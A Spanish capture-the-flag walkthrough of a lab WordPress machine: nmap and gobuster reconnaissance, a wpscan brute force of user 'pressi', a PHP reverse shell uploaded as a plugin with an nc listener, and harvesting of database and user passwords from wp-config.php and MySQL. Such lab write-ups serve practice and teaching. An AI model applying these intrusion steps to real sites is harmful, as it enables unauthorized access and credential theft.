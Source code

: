 ### Maquina vulnvault.tar

## Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](1.png)

## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.17.0.2

![alt text](2.png)

## Fuzzing web

gobuster dir -t 200 -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

/register.html       
/index.html           


## Modificamos el archivo /etc/hosts

![alt text](3.png)

Entramos en pressenter.hl y encontramos un usuario: pressi

![alt text](5.png)

aplicamos gobuster a pressenter.hl

gobuster dir -t 200 -u http://pressenter.hl/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null


/wp-content           
/wp-login.php         
/license.txt          
/index.php           
/wp-includes          
/readme.html          
/wp-trackback.php     
/wp-admin             
/wp-signup.php       

Ataque de fuerza bruta al usuario pressi con wpscan 

![alt text](6.png)

![alt text](7.png)

## Intrusión

Cree un código reverse shell en php, lo comprimí con zip luego lo sub como plugin y me puse en escucha con nc en el puerto 443

![alt text](8.png)

![alt text](9.png)

verificar que otros usuarios existen:

cat /etc/passwd | grep bash

root:x:0:0:root:/root:/bin/bash
enter:x:1001:1001:enter,,,:/home/enter:/bin/bash


Ví el archivo wp-config.php

/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'rooteable' );

/** Database hostname */
define( 'DB_HOST', '127.0.0.1' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );



mysql -u admin --password=rooteable
show databases;
use wordpress;
show tables;
select * from wp_usernames;

![alt text](image.png)

entramos al usuario enter:

su enter -> kernellinuxhack

## Escalar privilegios

su root -> kernellinuxhack


